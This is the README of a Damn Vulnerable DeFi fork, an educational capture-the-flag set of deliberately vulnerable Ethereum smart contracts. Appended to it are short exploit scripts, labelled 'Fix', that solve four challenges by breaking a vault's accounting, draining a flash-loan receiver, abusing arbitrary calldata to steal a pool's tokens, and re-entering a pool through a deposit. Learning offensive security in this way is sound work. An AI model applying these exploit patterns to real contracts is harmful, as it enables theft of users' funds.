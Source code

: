![](cover.png)

**A set of challenges to learn offensive security of smart contracts in Ethereum.**

Featuring flash loans, price oracles, governance, NFTs, lending pools, smart contract wallets, timelocks, and more!

## Play

Visit [damnvulnerabledefi.xyz](https://damnvulnerabledefi.xyz)

## Help

For Q&A and troubleshooting running Damn Vulnerable DeFi, go [here](https://github.com/tinchoabbate/damn-vulnerable-defi/discussions/categories/support-q-a-troubleshooting).

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

DO NOT USE IN PRODUCTION.

#Fix #1:        

Un-Stoppable

````
// lets transfer some amount directly to vault and make the if logic fail forever
await token.connect(player).transfer(vault.address, 10);
````

#Fix #2:

Naive Receiver

````
await pool.connect(player).flashLoan(receiver.address, ETH, 0, "0x");
````

#Fix #3:

Truster

````
let interface = new ethers.utils.Interface(["function approve(address spender, uint256 amount)"]);
let data = interface.encodeFunctionData("approve", [player.address, TOKENS_IN_POOL]);
await pool.connect(player).flashLoan(0, player.address, token.address, data);
await token.connect(player).transferFrom(pool.address, player.address,  TOKENS_IN_POOL);
````

#Fix #4: 

[Challenge #4 - Side Entrance]

In the Flash Loan call deposit function and trick the contract flash loan check

```
this.attackerContract = await (await ethers.getContractFactory('AttackSideEntrance', player)).deploy(
    pool.address,
    player.address
);
await this.attackerContract.attack();
```